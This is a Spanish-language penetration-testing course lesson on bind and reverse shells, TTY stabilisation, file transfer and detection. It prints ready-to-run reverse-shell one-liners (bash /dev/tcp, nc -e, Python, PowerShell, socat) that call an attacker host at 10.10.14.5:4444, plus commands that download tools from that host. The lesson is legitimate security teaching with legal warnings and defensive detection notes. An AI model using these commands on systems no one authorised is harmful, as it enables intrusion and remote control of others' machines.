



# 02 — Shells y control del sistema

**Curso:** C|PTA · Pentesting y Técnicas de Ataque  
**Tiempo de lectura:** 35–45 min  
**Laboratorio asociado:** bind/reverse shell en red aislada y estabilización de TTY

---

## 2.1 Qué es una shell remota

Una shell remota es un canal que permite ejecutar comandos en el objetivo. En un pentest autorizado se usa para **demostrar acceso** y continuar la enumeración, no para operar el sistema como si fuera propio.



| Concepto | Definición |
|---|---|
| **Shell** | Intérprete de comandos (`bash`, `sh`, `cmd`, `powershell`) |
| **Listener** | Proceso que espera conexiones (`nc`, `socat`, Metasploit) |
| **Payload** | Código que se ejecuta en el objetivo |
| **Bind shell** | El objetivo abre un puerto y espera |
| **Reverse shell** | El objetivo se conecta al atacante |
| **TTY** | Terminal asociada a la sesión |

---

## 2.2 Bind shell vs. reverse shell



*Diferencia entre bind y reverse shell frente a un firewall. Fuente: HTB Academy.*



| Tipo | Dirección | Ventaja | Limitación |
|---|---|---|---|
| **Bind** | Atacante → objetivo | Simple si el puerto es alcanzable | Firewalls bloquean entrantes |
| **Reverse** | Objetivo → atacante | Atraviesa NAT y firewalls típicos | Requiere que el objetivo pueda salir |
| **Web shell** | HTTP | Se mezcla con tráfico web | Depende del servidor y del filtrado |

> [!NOTE]
> La mayoría de firewalls permiten conexiones salientes. Por eso el reverse shell es más común en escenarios reales y en laboratorios.

---

## 2.3 Payloads

| Tipo | Descripción | Ejemplo |
|---|---|---|
| **Stageless** | Todo el payload en un solo bloque | `bash -i >& /dev/tcp/...` |
| **Staged** | Descarga una segunda etapa | `windows/x64/meterpreter/reverse_tcp` |
| **Meterpreter** | Sesión avanzada de Metasploit | Migración, hashdump, pivoting |
| **Web shell** | Archivo interpretado por el servidor | PHP, ASPX, JSP |
| **Command execution** | Solo ejecuta un comando | `curl`, `wget`, `powershell -c` |

### Ejemplos genéricos de reverse shell

```bash
# Bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1

# Netcat
nc -e /bin/bash 10.10.14.5 4444

# Python
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

```powershell
# PowerShell (ejemplo educativo)
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "New-Object System.Net.Sockets.TCPClient('10.10.14.5',4444)"
```

> [!WARNING]
> Estos comandos solo se ejecutan en máquinas propias o autorizadas. Copiarlos en un sistema ajeno es un delito.

### Listener

```bash
# Netcat clásico
nc -lvnp 4444

# Con rlwrap para historial y edición
rlwrap nc -lvnp 4444

# Socat
socat TCP-LISTEN:4444,reuseaddr,fork -
```

---

## 2.4 Shell no interactiva vs. PTY

| Característica | Shell básica | PTY |
|---|---|---|
| Ejecutar comandos | Sí | Sí |
| `Ctrl+C` | Puede cerrar la conexión | Envía señal |
| Editores interactivos | Fallan | Funcionan |
| Autocompletado | Limitado | Completo |
| Historial | Limitado | Completo |
| Cambia privilegios | No | No |

### Estabilización paso a paso

```bash
# 1. Comprobar TTY
tty

# 2. Spawn de PTY con Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 3. Poner la shell en segundo plano
# Ctrl+Z

# 4. Configurar la terminal local
stty raw -echo
fg

# 5. Ajustar variables
export TERM=xterm
export SHELL=/bin/bash

# 6. Ajustar tamaño (opcional)
stty rows 40 cols 120
```

> [!TIP]
> Si `python3` no está, prueba `python`, `perl`, `script` o `socat`. La técnica cambia según lo que haya instalado.

### Alternativas

```bash
# script
script -qc /bin/bash /dev/null

# socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.5:4444
```

---

## 2.5 Transferencia de archivos

| Método | Comando | Cuándo usarlo |
|---|---|---|
| **HTTP** | `python3 -m http.server 8000` | El objetivo puede descargar |
| **wget** | `wget http://10.10.14.5:8000/file` | Linux |
| **curl** | `curl -O http://10.10.14.5:8000/file` | Linux |
| **Netcat** | `nc -lvnp 9000 > file` | Sin HTTP |
| **Base64** | `base64 file` | Transferencia por texto |
| **Certutil** | `certutil -urlcache -f http://... file` | Windows |
| **SMB** | `impacket-smbserver` | Windows |

> [!NOTE]
> Transferir herramientas es parte del trabajo, pero cada archivo deja huella. Usa lo mínimo necesario y limpia después.

---

## 2.6 Detección y limpieza

### Cómo te detectan

- Conexiones salientes a IPs desconocidas.
- Procesos hijos inusuales (`bash` desde `www-data`).
- Uso de `/dev/tcp`, `nc`, `socat`.
- Archivos en `/tmp` o `%TEMP%`.
- Cambios en cron, servicios o claves SSH.

### Limpieza responsable

- Elimina archivos que subiste.
- Cierra sesiones y listeners.
- Revierte cambios de configuración.
- No borres logs del sistema (destruye evidencia).
- Documenta lo que dejaste y lo que limpiaste.

> [!WARNING]
> "Limpiar" no significa borrar logs. En un pentest, la evidencia es parte del entregable. La limpieza se limita a tus artefactos, no a la telemetría del sistema.

---

## 2.7 Autoevaluación

1. ¿Qué diferencia hay entre bind y reverse shell?
2. ¿Por qué el reverse shell atraviesa mejor un firewall?
3. ¿Qué es una PTY y qué mejora?
4. ¿Qué pasos usas para estabilizar una shell?
5. ¿Qué métodos de transferencia conoces?
6. ¿Qué señales deja una reverse shell en el endpoint?
7. ¿Qué se debe limpiar y qué no?

---

**Anterior:** [01 — Post-explotación](01-post-explotacion.md) · **Siguiente:** [03 — Usuarios, grupos y permisos](03-usuarios-permisos.md)
